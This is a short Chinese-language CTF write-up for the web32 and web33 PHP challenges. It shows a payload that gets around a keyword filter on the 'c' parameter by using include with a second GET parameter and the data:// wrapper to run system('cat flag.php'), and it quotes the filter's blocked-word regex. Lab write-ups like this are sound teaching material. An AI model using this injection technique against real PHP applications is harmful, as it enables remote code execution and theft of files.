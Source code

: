 这里我们采用

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```

**至于为什么后面可以出现过滤掉的字符，因为只是对get传入的c进行过滤**

输入

![image-20231216114405782](照片/image-20231216114405782.png)

得到flag

------

#### web33

分析

![image-20231216114912110](照片/image-20231216114912110.png)

过滤了

```
flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"
```

但是对于web32构建的命令并没有影响，再次利用

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```

![image-20231216115047926](照片/image-20231216115047926.png)
